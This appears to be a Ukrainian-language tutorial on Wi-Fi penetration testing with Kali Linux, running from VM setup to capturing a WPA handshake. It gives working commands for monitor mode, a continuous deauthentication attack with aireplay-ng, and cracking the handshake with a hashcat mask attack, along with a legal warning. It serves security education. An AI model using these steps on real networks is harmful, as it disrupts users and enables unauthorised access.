## Вступ

У нашому взаємопов'язаному суспільстві Wi-Fi мережі скрізь, пропонуючи легкий доступ до інтернету вдома, на робочих місцях та в громадських зонах. Проте багато людей не усвідомлюють ризиків безпеки, які з цим пов'язані, і наскільки легко їх експлуатувати за допомогою доступних інструментів. Ця стаття заглиблюється в процедуру тестування вразливостей Wi-Fi, щоб показати, наскільки вразливими є більшість мереж, підкреслюючи важливість посилених заходів безпеки.

## Налаштування середовища

Перш ніж заглибитися в детальне вивчення вразливостей Wi-Fi, важливо створити тестове середовище для проведення тестів на проникнення. Використання віртуальної машини (ВМ) є рекомендованим та найбезпечнішим підходом для розгортання Kali Linux, широко використовуваного дистрибутиву для тестування на проникнення.

### 1. Встановлення Kali Linux

Завантажте останній образ ВМ з офіційної сторінки завантаження, який сумісний з вашим програмним забезпеченням для віртуалізації: [Веб-сайт Kali Linux](https://www.kali.org/get-kali/). Kali Linux вже надає готові образи ВМ для:

* **VMware**
* **VirtualBox**

Виберіть відповідний для вашої платформи віртуалізації.

### 2. Встановлення програмного забезпечення

Якщо ще не встановлено, завантажте та встановіть одне з наступних програмних забезпечень для віртуалізації:

* **[VMware Workstation Player](https://www.vmware.com/products/workstation-player.html)** (Безкоштовно для особистого використання)
* **[Oracle VM VirtualBox](https://www.virtualbox.org/)** (Безкоштовний та з відкритим кодом)

### 3. Налаштування ВМ

#### Для користувачів VMware

1. **Імпорт образу ВМ:**
   * Запустіть VMware Workstation Player.
   * Виберіть завантажений файл в меню Відкрити під File.
   * Дотримуйтесь інструкцій на екрані для імпорту ВМ.


2. **Налаштування параметрів ВМ (Опціонально):**
   * Налаштуйте параметри пам'яті та ЦП відповідно до можливостей вашої системи.
   * Переконайтеся, що мережевий адаптер відповідає вашим потребам: або **Bridged**, або **NAT**.



#### Для користувачів VirtualBox

1. **Імпорт образу ВМ:**
   * Відкрийте VirtualBox.
   * Виберіть File, потім Import, щоб вибрати завантажений файл .ova.
   * Завершіть інструкції для додавання ВМ.

2. **Налаштування параметрів ВМ (Опціонально):**
   * Клацніть правою кнопкою миші на ВМ Kali та виберіть **Settings**.
   * Налаштуйте параметри System щодо пам'яті та процесорів.
   * Переконайтеся, що мережевий адаптер відповідає вашим потребам: або **Bridged**, або **NAT**.

### 4. Встановлення Kali Linux

Після налаштування ВМ вам потрібно пройти процес встановлення Kali Linux. Для цього:

1. Увімкніть ВМ, вибравши її та натиснувши кнопку **Start**.
2. Ви побачите меню завантаження Kali Linux. Виберіть "Graphical Install" або "Install", залежно від ваших уподобань.
3. Продовжуйте встановлення, проходячи кожен крок у TUI:
   * Виберіть мову, місцезнаходження та розкладку клавіатури.
   * Налаштуйте мережу: зазвичай це встановлюється за замовчуванням
   * Налаштуйте користувачів та пароль: не забудьте ввести надійний пароль
   * Розділіть диск: зазвичай можна вибрати Guided - use entire disk and set up LVM
   * Встановіть базову систему та додаткові пакети.

   

4. Після завершення встановлення система запропонує вам перезавантажитися.


### 5. Запуск Kali Linux

* Після перезавантаження машини ви побачите екран входу в Kali Linux.
* Увійдіть, використовуючи ім'я користувача та пароль, вказані під час встановлення.


* Якщо ви не змінили облікові дані за замовчуванням під час встановлення, вони будуть:
  * **Ім'я користувача:** `kali`
  * **Пароль:** `kali`
* Наполегливо рекомендується змінити цей пароль за замовчуванням при першому використанні Kali Linux:

   ```shell
   passwd
   ```

### 6. Оновлення Kali Linux

Переконайтеся, що ваш екземпляр Kali Linux оновлений:

```shell
sudo apt update && sudo apt full-upgrade -y
```

### 7. Налаштування зовнішнього Wi-Fi адаптера

Для ефективного тестування бездротового проникнення необхідний зовнішній Wi-Fi адаптер, який підтримує режим монітора та ін'єкцію пакетів.

1. **Підключіть Wi-Fi адаптер:**

   * Підключіть адаптер до вашого комп'ютера.
   * Я буду використовувати USB-C до USB-A для використання одного з моїх Wi-Fi адаптерів на базі Ralink RT5370

   
   

2. **Приєднайте адаптер до ВМ:**

   * **Для VMware:**
      * Кожного разу, коли підключається будь-який USB, з'являється спливаюче вікно з питанням, чи хочете ви залишити його з батьківським ПК або передати його ВМ

      

      АБО

      * Перейдіть до **Virtual Machine** > **USB** > **Connect "Назва вашого пристрою"**.

      

   * **Для VirtualBox:**
      * Перейдіть до **Devices** > **USB** > Виберіть ваш Wi-Fi адаптер.

3. **Перевірте адаптер в Kali:**

   ```shell
   iwconfig
   ```

   

### 8. Тестування налаштування

Підтвердіть, що ваш Wi-Fi адаптер може переходити в режим монітора:

```shell
sudo airmon-ng start wlan0
```



Після встановлення ВМ Kali Linux ми можемо перейти безпосередньо до тестування на проникнення та обійти проблему, зазначену вище

## Розуміння вразливостей Wi-Fi

Старіші протоколи безпеки в мережах Wi-Fi роблять їх вразливими до різноманітних атак. Хакери можуть викрасти дані та отримати доступ до заборонених областей. У цьому аналізі будуть пояснені кроки, що входять до звичайного сценарію тестування на проникнення Wi-Fi, щоб розкрити ці вразливості.

> **⚠️ ВАЖЛИВЕ ЕТИЧНЕ ТА ПРАВОВЕ ПОВІДОМЛЕННЯ ⚠️**
>
> **Важливо зазначити, що таке зламування паролів слід проводити тільки на мережах, якими володієте ви або на які маєте явний дозвіл на тестування. Зламування паролів на чужих мережах вважається незаконним і абсолютно неетичним.**

## Процес тестування на проникнення Wi-Fi

### 1. Перевірка мережевих інтерфейсів

Почніть зі збору інформації про інтерфейси та мережі вашої системи.

```shell
# Перегляд версії Kali Linux
cat /etc/os-release
uname -a
```


```shell
# Список мережевих інтерфейсів
ip addr
iwconfig
```



Як ми вже бачимо, назву `wlan0` було змінено на `wlan0mon`, що вказує на те, що адаптер зараз знаходиться в режимі монітора

Інструменти для проведення тестів на проникнення включені в Kali Linux з самого початку.

### 2. Завершення конфліктуючих процесів

```shell
sudo airmon-ng check kill
```

Вимкнення пов'язаних з мережею служб вирішує проблеми, пов'язані з налаштуванням режиму монітора, необхідного для захоплення пакетів.

### 3. Увімкнення режиму монітора

```shell
sudo airmon-ng start wlan0
```

Переключіть бездротовий інтерфейс у режим монітора, якщо це не сталося на попередніх кроках, для початку захоплення трафіку.

```shell
# Перевірка режиму монітора
sudo airmon-ng
iwconfig
```


### 4. Сканування точок доступу

Пошук найближчих точок доступу Wi-Fi для знаходження нашої кінцевої цілі.

```shell
sudo airodump-ng wlan0mon
```


Інструмент `airodump-ng` надає повну інформацію про доступні мережі, включаючи канали та BSSID.

### 5. Захоплення даних рукостискання

```shell
# Почніть захоплення пакетів у цільовій мережі
sudo airodump-ng -w dump -c [канал] --bssid [BSSID] wlan0mon
```


Замініть `[канал]` та `[BSSID]` інформацією вашої цільової мережі. Рукостискання відбувається, коли будь-який пристрій підключається до вашої мережі. Захоплення цього - ваш шанс спробувати протестувати пароль мережі офлайн.

### 6. Запуск атаки деаутентифікації

Змусьте пристрої перепідключитися до мережі, тим самим збільшуючи ймовірність захоплення даних рукостискання.

Створіть інше вікно застосунку Terminal і розмістіть його поруч з уже запущеною командою, виконаною на попередньому кроці

```shell
sudo aireplay-ng --deauth 0 -a [BSSID] wlan0mon
```

Замініть `BSSID` на ваш власний. Атаки деаутентифікації перешкоджають користувачам використовувати підключення, змушуючи всі підключені пристрої повторно автентифікуватися, щоб процес міг бути перехоплений.





Отже, тепер ми можемо перейти до кроку 7, щоб точно шукати рукостискання EAPOL і витягти його для передачі меншої кількості даних конвертеру, або просто пропустити це, оскільки ми вже знаємо, що дамп вже містить необхідні дані

### 7. Аналіз захоплених даних за допомогою Wireshark (опціонально)

Шукайте захоплені пакети та підтвердьте, що успішне рукостискання було захоплено.

```shell
wireshark dump-01.cap
```


`EAPOL` є частиною фільтра Wireshark, який полегшує знаходження відповідних пакетів автентифікації. Ви повинні були бачити це ключове слово на попередньому кроці, що вказує на те, що хтось підключився до мережі. Ми можемо витягти лише рукостискання `EAPOL`, щоб зменшити розмір файлу, або конвертувати (наступний крок) файл без його модифікації, що працює майже в кожному випадку, якщо ви не робите тривалих сканувань (> 5 хвилин)

### 8. Конвертація захопленого файлу у формат для нашого наступного інструменту

Використовуючи офіційний конвертер, наданий командою Hashcat, файл захоплення потрібно конвертувати у відповідний формат. Можна використовувати онлайн-інструмент [тут](https://hashcat.net/cap2hashcat/) або використовувати CLI

Переконайтеся, що ви перезапустили NetworkManager, щоб відновити доступ до Інтернету, інакше ви не зможете завантажити пакет

```shell
sudo systemctl restart NetworkManager
```

Якщо ви хочете використовувати інструмент CLI замість простого веб-сайту, вам потрібно встановити пакет `hcxtools`, який містить майже все від команди Hashcat.


```shell
sudo apt install hcxtools
hcxpcapngtool -o dump.hc22000 dump-01.cap
```

Після виконання ви повинні побачити щось подібне




### 9. Декодування хешу захопленого файлу в реальний пароль

Нарешті, давайте проведемо тест на міцність пароля за допомогою Hashcat. Я буду тестувати це на своєму Macbook Pro 16 2021 з GPU M1 Pro та i7-8700 + RX 6600 XT, використовуючи macOS Sonoma (Hackintosh)

```shell
hashcat -m 22000 dump.hc22000 -a 3 "?d?d?d?d?d?d?d?d"
```

де:

* `-m 22000` визначає алгоритм WPA-PBKDF2-PMKID+EAPOL.
* `-a 3` вказує на атаку за маскою.
* `"?d"` представляє цифру.

#### Час на зламування хешу

| **GPU**            | **Час зламування (8-значний числовий пароль)** |
|--------------------|------------------------------------------------|
| AMD RX 6600 XT     | ~5 хвилин                                      |
| NVIDIA GTX 1660 Ti | ~10 хвилин                                     |
| Apple M1 Pro GPU   | ~12 хвилин                                     |
| Apple M1 GPU       | ~40 хвилин                                     |







